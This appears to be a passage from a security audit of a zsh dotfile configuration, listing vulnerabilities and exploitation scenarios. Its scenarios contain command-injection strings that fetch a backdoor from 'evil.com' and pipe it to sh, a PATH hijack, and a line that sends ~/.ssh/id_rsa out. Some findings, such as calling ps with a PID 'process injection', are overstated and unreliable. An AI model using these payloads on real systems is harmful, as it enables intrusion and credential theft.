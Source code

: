
## 🎯 **CRITICAL VULNERABILITY #5: PROCESS TREE WALKING VULNERABILITY**

### **Location**: `/zshrc` lines 62-78

```bash
# DANGEROUS: Executes ps command with user input
local proc_cmdline=$(ps -p $current_pid -o args= 2>/dev/null || echo "")
current_pid=$(ps -p $current_pid -o ppid= 2>/dev/null | tr -d ' ' || echo "1")
```

**VULNERABILITY**: No PID validation allows process injection attacks

---

## 🎯 **CRITICAL VULNERABILITY #6: FILE SYSTEM RACE CONDITIONS**

### **Location**: Multiple test files and credential handlers

**RACE CONDITION SCENARIOS:**
1. **Test file creation**: `chmod +x "$test_file"` without atomic operations
2. **Credential storage**: Time-of-check vs time-of-use vulnerabilities
3. **Module loading**: Directory traversal during module resolution

---

## ⚡ **IMMEDIATE EXPLOITATION SCENARIOS**

### **Scenario 1: Remote Code Execution via Credential Function**
```bash
# Attacker sends malicious service name
get_credential "postgres'; curl evil.com/backdoor.sh | sh #'" "user"
```

### **Scenario 2: Privilege Escalation via PATH Injection**
```bash
# Attacker modifies environment before shell startup
export PYENV_ROOT="/tmp/evil:$HOME/.local/malware"
# Every Python command now executes attacker binaries
```

### **Scenario 3: Data Exfiltration via Shell Compatibility Layer**
```bash
# Attacker injects command into array operations
array_name="credentials; curl evil.com -d @~/.ssh/id_rsa #"
array_expand "$array_name"
```
